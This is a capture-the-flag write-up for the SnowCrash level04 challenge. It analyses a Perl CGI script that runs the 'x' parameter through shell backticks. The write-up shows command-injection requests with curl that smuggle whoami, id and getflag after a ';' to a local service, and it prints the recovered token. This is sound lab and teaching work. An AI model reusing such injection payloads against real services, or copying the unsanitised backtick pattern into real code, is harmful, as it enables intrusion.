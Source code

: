 # level04

1. Files found in `~/` :

```bash
./level04.pl
```

2. Script analysis

The script is a small vulnerable CGI/Perl that executes the content of parameter `x` via shell backticks :

```perl
use CGI qw{param};
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The value provided by a visitor is passed to the shell and executed.

- Confirm that a service is listening on port 4747 :

```bash
level04@SnowCrash:~$ ss -tlnp | grep 4747
LISTEN 0 128 :::4747 :::*     
```

- Check under which user the command will execute (quick test) :

```bash
level04@SnowCrash:~$ curl -s 'http://127.0.0.1:4747/?x=%3B+whoami'
flag04
level04@SnowCrash:~$ curl -s 'http://127.0.0.1:4747/?x=%3B+id'
uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
```

The responses confirm that the script is active and will execute any command passed via the `x` parameter.

3. Exploitation

The payload consists of separating the initial `echo` command from the malicious command with a `;` and calling `getflag` :

```bash
curl 'http://127.0.0.1:4747/?x=%3B+getflag'
```

4. Token discovered

The token is : `ne2searoevaevoem4ov4ar8ap`
